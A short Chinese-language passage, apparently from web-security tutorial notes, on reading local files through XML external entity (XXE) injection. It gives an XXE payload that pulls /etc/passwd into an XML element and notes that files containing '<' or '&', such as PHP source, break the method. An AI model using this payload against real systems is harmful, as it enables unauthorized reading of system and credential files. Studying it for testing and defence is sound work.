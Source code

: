 ### 1. 读取本地文件

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE creds [  
<!ENTITY goodies SYSTEM "file:///etc/passwd"> ]>
<creds>&goodies;</creds>
```

![img](../../images//636125819a35986c1f6fb9234ee23aa7.png)

当文件含有特殊字符（"\<" 和 "&"）时，这个方法将会报错或无返回,如查看一个php文件时\<?php会被当作新元素。

![img](../../images//df16ca8b1ed2ae76de42c2960552cafe.png)
